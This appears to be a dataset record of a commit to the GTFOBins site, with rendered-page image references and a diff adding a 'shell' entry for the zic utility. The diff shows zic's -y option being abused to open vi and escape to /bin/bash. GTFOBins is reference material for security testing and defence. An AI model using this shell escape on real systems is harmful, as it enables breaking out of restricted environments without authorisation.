

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/zic.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add Shell to zic.md

```diff
--- a/_gtfobins/zic.md
+++ b/_gtfobins/zic.md
@@ -13,4 +13,10 @@ functions:
         echo "Rule    Jordan  0     1     arg2              Jan     lastSun       2       1:00d   -" > zicfile
         echo "Zone    Test    2:00    Jordan  CE%sT" >> zicfile
         zic -d . -y "id" ./zicfile
+  shell:
+    - code: |
+        echo "Rule    Jordan  0     1     arg2              Jan     lastSun       2       1:00d   -" > zicfile
+        echo "Zone    Test    2:00    Jordan  CE%sT" >> zicfile
+        zic -d . -y "vi" ./zicfile
+        :!/bin/bash
 ---
```
